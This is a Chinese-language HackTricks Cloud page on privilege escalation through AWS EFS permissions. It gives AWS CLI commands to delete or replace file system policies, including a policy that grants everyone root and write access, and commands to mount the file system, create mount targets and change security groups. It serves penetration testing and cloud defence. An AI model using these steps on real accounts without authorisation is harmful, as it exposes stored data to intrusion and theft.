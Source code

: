 # AWS - EFS Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EFS

更多关于 EFS 的 **信息**：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

请记住，为了挂载 EFS，您需要在 EFS 被暴露的子网络中并且有访问权限（安全组）。如果发生这种情况，默认情况下，您将始终能够挂载它，但是，如果它受到 IAM 策略的保护，您需要拥有此处提到的额外权限才能访问它。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

拥有任何这些权限的攻击者可以 **更改文件系统策略** 以 **授予您访问权限**，或仅仅 **删除它** 以便 **授予默认访问**。

要删除策略：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
要更改它：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

拥有此权限的攻击者将能够**挂载 EFS**。如果默认情况下没有给予所有可以挂载 EFS 的人写权限，他将只有**读取访问**。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
额外的权限`elasticfilesystem:ClientRootAccess`和`elasticfilesystem:ClientWrite`可以在文件系统挂载后用于**写入**文件系统内部，并以**root**身份**访问**该文件系统。

**潜在影响：** 通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:CreateMountTarget`

如果攻击者在**子网络**中，且该EFS没有**挂载目标**。他可以利用此权限**在他的子网中创建一个**：
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在影响：** 通过在文件系统中定位敏感信息间接提升权限。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

在攻击者发现 EFS 在他的子网络中有挂载目标但**没有安全组允许流量**的情况下，他可以**通过修改所选安全组来改变这一点**：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在影响：** 通过在文件系统中定位敏感信息实现间接权限提升。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
